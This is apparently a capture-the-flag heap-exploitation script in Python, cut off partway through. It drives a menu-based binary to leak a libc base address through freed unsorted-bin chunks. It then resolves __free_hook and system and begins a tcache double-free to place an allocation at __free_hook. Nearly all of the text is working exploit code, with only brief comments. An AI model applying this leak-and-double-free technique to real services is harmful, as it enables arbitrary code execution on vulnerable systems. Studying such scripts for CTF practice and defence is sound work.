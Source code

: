 ```python

    def addn(idx:int, size:int, content:bytes=b' ', hooked:bool=False):
        sh.sendlineafter(b'ice:', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())
        if hooked:
            return
        sh.sendlineafter(b'Content', content)

    def deln(idx:int):
        sh.sendlineafter(b'ice:', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'ice:', b'2')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recvline()

    # leak libc addr (unsorted bin)
    addn(0, 0x80)
    addn(1, 0x80)
    addn(2, 0x80)
    addn(3, 0x80)
    addn(4, 0x80)
    addn(5, 0x80)
    addn(6, 0x80)
    addn(7, 0x80)
    deln(7)
    deln(6)
    deln(5)
    deln(4)
    deln(3)
    deln(2)
    deln(1)
    deln(0) # 1-7 in tcache, 0 in unsorted bin
    ret = show(0)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0')
    libcBase = mainArena - dumpArena - 0x60 # sub unsorted bin offset
    print(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    freeHook = libcBase + libc.symbols['__free_hook']
    systemAddr = libcBase + libc.symbols['system']

    # double free to alloc at freeHook
    addn(15, 0x28) # there is a 0x30-size chunk in tcache and causing double free detection
    addn(0, 0x18)  # so we need to alloc it to solve it
    addn(1, 0x18)
    addn(2, 0x18)
    addn(3, 0x18)
    addn(4, 0x18)
    addn(5, 0x18)
    addn(6, 0x18)
    addn(7, 0x18)
    addn(8, 0x18)
    deln(8)
    deln(7)
    deln(6)
    deln(5)
    deln(4)
    deln(3)
    deln(2) # 2-8 in tcache
```
